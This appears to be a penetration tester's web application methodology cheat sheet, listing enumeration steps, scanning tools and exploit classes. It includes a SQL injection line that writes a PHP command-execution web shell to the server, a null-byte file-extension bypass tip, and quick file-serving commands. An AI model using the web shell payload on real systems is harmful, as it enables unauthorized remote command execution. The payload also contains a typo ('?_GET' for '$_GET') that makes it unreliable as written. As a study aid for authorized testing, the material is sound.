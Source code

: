 # Web App Methology
https://guide.offsecnewbie.com/web
## Web App Enumeration
### 1. Enum Technology
  - Programming language and frameworks
  - Web Server software
  - Database software
  - Server operating system
### 2. Inspec URLs
### 3. Inspect Page Content
  - *Ctrl + Shift + K*
  - *Ctrl + U*
### 4. View Response Headers
  - *Ctrl + Shift + K* > Network
  - BurpSuite
### 5. Inspect Sitemaps
  - *robots.txt*
### 6. Locate Administration Consoles
Two common exaples are **/manager/html** from Tomcat and **/phpmyadmin** from phpMyAdmin
### 7. Throw Web App Assessment Tools
  - Dirb / Dirbuster
  - Burp Suite
  - Nikto
### 8. Exploit
  - XSS
  - Direcroty Travesal Vulnerabilities
  - Local File Inclusion (Execute uploaded scripts)
  - Remote File Inclusion (Execute remote scripts)
  - LFI Code Execution
  - Log Poisoning
  - PHP Wrappers
  - SQL Injection
  - SQLI to RCE
    ```bash
    http://10.10.10.10./debug.php?id=1 union select 1, 2, "<?php echo shell_exec(?_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/shell.php'
    ```
### 9. Post-Exploitation
  - **/usr/share/webshells**
### *Notes*
- Older versions of PHP have a vulnerability in which a null byte \(\%00\) will terminate any string. This trick can be used to bypass file extensions.
- PHP HTTP Server
  ```bash
  php -S 0.0.0.0:8080
  ```
- Ruby HTTP Server
  ```bash
  ruby -run -e httpd . -p 9000
  ```
- BusyBox HTTP Server
  ```bash
  busybox httpd -f -p 10000
  ```
